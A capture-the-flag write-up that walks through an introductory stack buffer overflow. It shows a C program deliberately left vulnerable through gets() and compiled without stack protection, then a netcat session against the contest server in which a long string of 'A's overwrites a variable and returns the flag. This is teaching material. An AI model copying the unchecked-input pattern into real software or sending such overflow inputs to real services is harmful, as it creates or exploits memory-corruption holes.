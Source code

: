 Notice that the program will read the flag from a file if we somehow manage to break from the `while(1)` loop.

We also notice that if `x!=0`, the code will the "infinite" loop:

```C
int main() {
    while(1) {
        int x = 0;
        char name[32]="";
        printf("What's your name? ");

        // ...
        
        gets(name);    

        if(x) {
            break; // EXIT the
        } 

        // ...
    }

    // read flag from file
    // ...
    
    return 0;
}
```

But how can we set x to something different from 0 **in a compiled program**?

When we compile this using `gcc main.c -o main -std=c99 -fno-stack-protector -z execstack -no-pie`, we actually get a hint:

```bash
main.c: In function ‘main’:
main.c:13:9: warning: ‘gets’ is deprecated [-Wdeprecated-declarations]
   13 |         gets(name);
      |         ^~~~
In file included from main.c:4:
/usr/include/stdio.h:667:14: note: declared here
  667 | extern char *gets (char *__s) __wur __attribute_deprecated__;
      |              ^~~~
/usr/bin/ld: /tmp/ccs4hMd1.o: in function `main':
main.c:(.text+0x5e): warning: the `gets' function is dangerous and should not be used.
```

So the `gets()` function is considered dangerous. What does that mean?

If we search the internet, we find out that `gets` is unsafe since it doesn't check the input length when saving it to a buffer. In other words, it can copy, say, a 100 character long string in a 35 bytes array (100 is an arbitrary number, anything > 35 proves the point). This is also known as a **Buffer Overflow**, since the remaining `100-35=65 bytes` override other variables in our program's memory, including `x`.

So, if we provide a string long enough to override x (but short enough to not override other important variables that will crash the program), we'll successfully retrieve the flag:

```bash
vianuhack@computer~$ nc 164.92.224.165 1337
What's your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
What's your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
What's your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Congrats! You bypassed it!
Here's your flag: VianuCTF{PWN3D_TH1S_INTRO_B0F!}

vianuhack@computer~$ 
```

This is why it's always important to address out-of-bounds array issues (signal 11) when coding in C/C++. While `gets()` is deprecated, there are many other places where issues like this can arise. 